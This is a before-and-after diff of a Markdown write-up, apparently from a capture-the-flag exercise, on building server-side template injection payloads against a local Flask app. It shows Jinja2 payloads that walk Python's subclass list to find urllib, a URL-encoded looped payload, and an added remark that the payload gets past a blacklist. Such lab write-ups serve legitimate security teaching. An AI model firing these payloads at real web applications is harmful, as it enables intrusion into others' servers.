

Before and after one commit to poorvi1910/Web, a Markdown page: challenges/SSTI_payload_creation_chall.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/challenges/SSTI_payload_creation_chall.md
+++ b/challenges/SSTI_payload_creation_chall.md
@@ -25,11 +25,14 @@ if __name__ == "__main__":
     app.run()
 ```
 
-- return the index of urllib in subclasses()
+- Return the index of urllib in subclasses()
+
 ```http://127.0.0.1:5000/?c={{().__class__}}``` : ```<class 'tuple'>``` : class method returns the class of the object that is an empty tuple over here
+
 ```http://127.0.0.1:5000/?c={{().__class__.__base__}}``` : ```<class 'object'>```
-```http://127.0.0.1:5000/?c={{().__class__.__base__.__subclasses__()}}``` : ```[<class 'type'>, <class 'async_generator'>, <class 'bytearray_iterator'>, <class 'bytearray'>, <class 'bytes_iterator'>``` :
-returns all the subclasses for that object<br>
+
+```http://127.0.0.1:5000/?c={{().__class__.__base__.__subclasses__()}}``` : ```[<class 'type'>, <class 'async_generator'>, <class 'bytearray_iterator'>, <class 'bytearray'>, <class 'bytes_iterator'>``` : returns all the subclasses for that object<br>
+
 Now to get the index at which the urllib is present, we can copy the list and iterate through it or to directly run it in the browser we can use a for loop:
 ```
 {% set subclasses = ().__class__.__base__.__subclasses__() %}
@@ -41,7 +44,9 @@ Now to get the index at which the urllib is present, we can copy the list and it
 ```
 If this is our payload, then the for loop iterates through the subclasses list and prints the index wherever it finds urllib mentioned
 url encoding the block we get the payload as: ```%7B%25%20set%20subclasses%20%3D%20().__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20for%20i%20in%20range(subclasses%7Clength)%20%25%7D%0A%20%20%7B%25%20if%20'urllib'%20in%20subclasses%5Bi%5D.__module__%20%25%7D%0A%20%20%20%20%7B%7B%20i%20%7D%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D```
+
 ![image](https://github.com/poorvi1910/Web/assets/146640913/433ab890-0a54-4476-a97c-725822933382)
+[SAME PAYLOAD WORKS AGAINST BLACKLIST TOO]
 
 - get name of current python flask script
 
````
